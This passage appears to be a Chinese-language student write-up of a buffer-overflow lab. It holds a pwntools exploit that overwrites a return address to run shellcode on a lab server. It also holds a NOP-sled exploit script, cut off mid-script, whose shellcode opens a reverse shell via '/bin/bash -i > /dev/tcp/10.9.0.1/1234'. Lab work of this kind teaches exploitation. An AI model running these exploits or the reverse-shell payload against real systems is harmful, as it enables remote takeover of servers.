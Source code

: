 offset=116，原因是0xb8-0x48 = 112, 112 + 4  = 116，因为ebp本身是4个字节，所以需要加4。

**最终payload结构：......NOP1 + NOP2 + 修改返回地址到NOP3 + NOP3 + NOP4...... + shellcode**

**由于该Task限制较少，所以可以借助NOP滑梯，将shellcode放在buf的任何位置，只要可以正确修改返回地址到shellcode即可**

**pwntools版本：**

```python
#!/usr/bin/env python3
from pwn import *
context(arch='i386', os='linux')
p = remote('10.9.0.5',9090)
shellcode = asm(shellcraft.sh())
offset = 116
ret = 0xffffd568 + 8
payload = b'a' * offset + p32(ret) + shellcode + b'a' * (517 - len(shellcode) - 116 - 4)
p.send(payload)
p.interactive()
```

# Task3

2号服务器没有透露ebp的地址，也就无法精确知道应该在多少offset的位置填入shellcode返回地址，所以我们可以在shellcode前尽可能多的填入NOP滑梯的返回地址，进而使程序执行到shellcode。由于该实验的缓冲区大小为[100，200]，同时str占517字节，所以我们可以选择在0-300的范围内全部填入返回地址，那么几乎肯定可以覆盖到函数返回地址了。

攻击代码 ：

```python
#!/usr/bin/python3
import sys

shellcode= (
  "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # You can modify the following command string to run any command.
   # You can even run multiple commands. When you change the string,
   # make sure that the position of the * at the end doesn't change.
   # The code above will change the byte at this position to zero,
   # so the command string ends here.
   # You can delete/add spaces, if needed, to keep the position the same. 
   # The * in this line serves as the position marker         * 
   #"/bin/ls -l; echo Hello 32; /bin/tail -n 2 /etc/passwd     *"
   "/bin/bash -i > /dev/tcp/10.9.0.1/1234 0<&1 2>&1            "
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcff8 + 304     # Change this number 
#offset = 116              # Change this number 

```